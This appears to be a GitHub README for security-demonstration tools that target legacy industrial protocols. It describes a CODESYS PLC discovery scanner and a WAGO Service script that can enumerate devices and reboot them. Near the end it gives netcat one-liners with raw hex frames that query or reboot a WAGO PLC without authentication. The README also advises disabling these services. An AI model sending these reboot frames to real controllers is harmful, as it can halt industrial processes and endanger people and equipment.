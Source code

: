 ## Description
Tis repo is a collection of tools to highlight the weaknesses of legacy protocol, and to show the importance of a cybersec configuration. 

## scan_codesys.py

This Python script benefits of discovery protocol used by CODESYS 3 (on port 1740) to gather information about PLCs on a network. 
A predefined UDP frame is sent to a broadcast address on port 1740, and answers from PLCs are collected and parsed.
This is a reminder that this port isn't secure, should be disabled. The discover feature is useful but isn't mandatory in order to use CODESYS.

### Usage

`python3 scan_codesys.py 192.168.1.255`

Example of result :

`IP Address      Device Name          Complete Name                            Manufacturer              MAC Address`
`192.168.1.12   PFC300-68415F        WAGO 750-8302 PFC300 2ETH RS             WAGO                      0030DE684161`
`192.168.1.4    PFC200V3-48117C      WAGO 750-8210 PFC200 G2 4ETH             WAGO                      0030DE48117C`
`192.168.1.5    0030DE5A9782         750-8001 Basic Controller 100 2ETH       WAGO GmbH & Co. KG        37SUN31564010260523873+0000000000000176`


## wagoservice.py

This Python script uses legacy protocol WAGO Service on port 6626, used by software like WAGO Ethernet Settings or WAGO I/O Check. 
This legacy protocol is unauthenticated. 
WAGO Ethernet Settings can be easily replaced by the Web Based Management, which is secure. 
WAGO I/O Check is used for configuration of I/O modules, but should be used only during the commissionning, ideally when the PLC isn't connected to the network. 
The script sends predefined TCP frame in order to gather information about WAGO PLCs and could be used to reboot the PLC. 
A discover function based on NMAP will WAGO devices with 6626 port open on the specified network.
When a network adress is provided, the reboot function will restart all WAGO devices... Be careful.

### Usage

`python3 wagoservice.py  <command> <address/network>`

where :
- command : info / reboot / discover
- address/network : can be a single IP address or a network in CIDN format (i.e 192.168.1.0/24)

Example and results :

`python3 wagoservice.py discover 192.68.1.0/24`
`+---------------------+---------------------+---------------------+---------------------+---------------------+`
`| IP Address          | MAC Address         | PSN                 | SW-VER              | SN                  |`
`+---------------------+---------------------+---------------------+---------------------+---------------------+`
`| 192.168.1.1         | 00:30:DE:0A:93:56   | 750-880             | 01.08.25(16)        | SN20121115T113608-0416146#PFC|0030DE069605 |`
`| 192.168.1.2         | 00:30:DE:06:96:05   | 750-8001            | 01.04.02(00)        | SN20230403T202128-1738604#BC|0030DE5A9782 |`
`| 192.168.1.3         | 00:30:DE:5A:97:82   | 751-9301            | 04.06.03(28)        | 37SUN31564010260470190+0000000002347218 |`
`| 192.168.1.4         | 00:30:DE:4E:6F:EC   | 750-8302            | 04.06.01(28)        | 37SUN31564010260575922+0000000000001690 |`
`| 192.168.1.5         | 00:30:DE:68:41:5F   | 750-8210            | 04.05.10(27)        | 37SUN31564010260429954+0000000000000008 |`
`| 192.168.1.6         | 00:30:DE:48:11:7C   | 750-8217            | 03.10.10(22)        | 37SUN31564010260430577+0000000000003662 |`
`+---------------------+---------------------+---------------------+---------------------+---------------------+`


## One-liner commands

Also based on WAGO Service protocol, this simple commands can be used to retrieve information or to reboot a WAGO PLC device.
Can be used directly on a WAGO Linux-based PLC.

### Get information
`echo '8812020001000100000000000000000002000801' | xxd -r -p | nc 192.168.1.10 6626`

### Reboot
`echo '8812320001000100000000000000000002000201' | xxd -r -p | nc 192.168.1.10 6626`

# Disclaimer  
This collection of tools is intended solely for legitimate and authorized use in conducting cybersecurity demonstration within a network. Users are required to obtain proper authorization from network owners or administrators before use.

The developer of this program assumes no responsibility for any unauthorized use or any consequences arising from the improper application of this tools. By using this tools, you agree that you have the necessary permissions and you assume all liability associated with its use. Please ensure compliance with all applicable laws and regulations regarding network scanning and cybersecurity practices.
